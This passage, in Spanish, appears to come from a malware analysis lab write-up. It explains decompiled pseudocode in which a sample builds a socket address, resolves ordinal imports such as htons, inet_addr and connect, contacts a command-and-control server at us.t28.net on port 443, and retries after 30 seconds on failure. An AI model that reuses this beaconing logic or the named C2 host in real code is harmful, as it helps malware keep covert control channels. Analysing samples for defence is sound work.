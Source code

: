 ![Conexion TCP-1](../analisis-estatico/capturas/conexion-tcp-1.png)

**Qué hace el bloque:**
- Construye una sockaddr_in
  _DAT_0040aa70 = 2;  
  → sin_family = AF_INET.

- _DAT_0040aa72 = Ordinal_9(_DAT_0040aa98);  
  → sin_port = htons(PORT).  
  Ordinal_9 = htons.  
  _DAT_0040aa98 almacena el puerto (en este lab es 443 → 0x01BB).  

- _DAT_0040aa74 = Ordinal_11(pbVar5);  
  → sin_addr.s_addr = inet_addr(ip_str).  
  Ordinal_11 = inet_addr.  
  pbVar5 apunta a la cadena con la IP del C2 (resuelta antes desde us.t28.net con gethostbyname o similar).

- Intenta conectar con el C2:
    - iVar3 = Ordinal_4(_DAT_0040aa80, &_DAT_0040aa70, 0x10);  
      Ordinal_4 = connect.  
      _DAT_0040aa80 es el SOCKET que creó antes con socket().  

    - if (iVar3 == -1) { Ordinal_3(_DAT_0040aa80); Sleep(30000); local_8 = 0xffffffff; }  
      → Si connect falla: cierra el socket (Ordinal_3 = closesocket), duerme 30 s y marca error para reintentar.
